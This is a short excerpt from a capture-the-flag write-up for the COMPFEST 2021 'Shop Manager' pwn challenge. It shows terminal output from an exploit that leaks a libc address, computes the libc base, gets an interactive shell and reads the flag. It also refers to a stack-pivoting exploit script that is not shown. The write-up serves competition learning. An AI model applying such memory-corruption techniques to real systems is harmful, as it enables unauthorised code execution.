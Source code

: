 ```bash  
   PIE:      PIE enabled  
libc_leak = 0x7ff49f953ca0  
libc_base = 0x7ff49f568000  
[*] Switching to interactive mode  
$ id  
/bin/sh: 1: id: not found  
$ ls -l  
total 2208  
drwxr-xr-x  2 0 0    4096 Sep 12 04:33 bin  
-r-xr-xr-x  1 0 0   17264 Sep 12 04:33 chall  
drwxr-xr-x  2 0 0    4096 Sep 12 04:33 dev  
-r--r--r--  1 0 0      56 Sep 12 04:33 flag.txt  
-rwxr-xr-x  1 0 0  179152 Sep 12 04:33 ld-2.27.so  
drwxr-xr-x 21 0 0    4096 Sep 12 04:33 lib  
drwxr-xr-x  3 0 0    4096 Sep 12 04:33 lib32  
drwxr-xr-x  2 0 0    4096 Sep 12 04:33 lib64  
-rwxr-xr-x  1 0 0 2030928 Sep 12 04:33 libc-2.27.so  
-rwxr-xr-x  1 0 0     339 Sep 12 04:33 run.sh  
$ cat flag.txt  
COMPFEST13{I_us3_st4Ck_p1v0T1ng_How_bouT_Y0u_dd4dfcc265}  
```

I also wrote an Exploit code (`solve_stackpivot.py`) that uses the sell
function after the competition.  

Original writeup
(https://github.com/mito753/CTF/tree/main/2021/COMPFEST_CTF_2021/Pwn_Shop_Manager).